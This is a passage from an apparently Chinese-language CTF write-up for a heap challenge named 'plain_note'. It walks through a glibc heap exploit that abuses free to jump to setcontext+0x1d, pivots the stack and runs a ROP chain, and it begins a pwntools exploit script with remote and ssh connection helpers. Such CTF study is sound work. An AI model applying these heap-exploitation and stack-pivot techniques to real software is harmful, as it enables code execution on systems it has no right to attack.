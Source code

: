 最后我们直接触发即可

```
add(0x300, payload)
delete(56)
```

我们来简单分析一下我们的利用链：
<li>首先我们调用`free`后，流程会自动跳转至:
<pre><code class="lang-asm">mov rdx, qword ptr [rdi + 8]
mov rax, qword ptr [rdi]
mov rdi, rdx
jmp rax
</code></pre>
我们传入的`[rdi]`是`p64(libc.symbols['setcontext'] + 0x1d) + p64(heap_address + 0x30A0)`
</li>
1. 那么我们执行到`jmp rax`时，寄存器状况为`rax = libc.symbols['setcontext'] + 0x1d , rdx = heap_address + 0x30A0`，程序跳转执行`libc.symbols['setcontext'] + 0x1d`。
<li>接下来将我们实现布置好的信息转移到对应寄存器内，栈迁移完成。[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://img.lhyerror404.cn/error404/2020-06-12-061140.png)
</li>
<li>最后程序将执行我们的ROP链，利用结束。[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://img.lhyerror404.cn/error404/2020-06-12-061532.png)
</li>
### <a class="reference-link" name="Final%20Exploit"></a>Final Exploit

```
from pwn import *
import traceback
import sys
context.log_level='debug'
context.arch='amd64'
# context.arch='i386'

plain_note=ELF('./plain_note', checksec = False)

if context.arch == 'amd64':
    libc=ELF("/lib/x86_64-linux-gnu/libc.so.6", checksec = False)
elif context.arch == 'i386':
    try:
        libc=ELF("/lib/i386-linux-gnu/libc.so.6", checksec = False)
    except:
        libc=ELF("/lib32/libc.so.6", checksec = False)

def get_sh(Use_other_libc = False , Use_ssh = False):
    global libc
    if args['REMOTE'] :
        if Use_other_libc :
            libc = ELF("./", checksec = False)
        if Use_ssh :
            s = ssh(sys.argv[3],sys.argv[1], sys.argv[2],sys.argv[4])
            return s.process("./plain_note")
        else:
            return remote(sys.argv[1], sys.argv[2])
    else:
        return process("./plain_note")

def get_address(sh,info=None,start_string=None,address_len=None,end_string=None,offset=None,int_mode=False):
    if start_string != None:
        sh.recvuntil(start_string)
    if int_mode :
```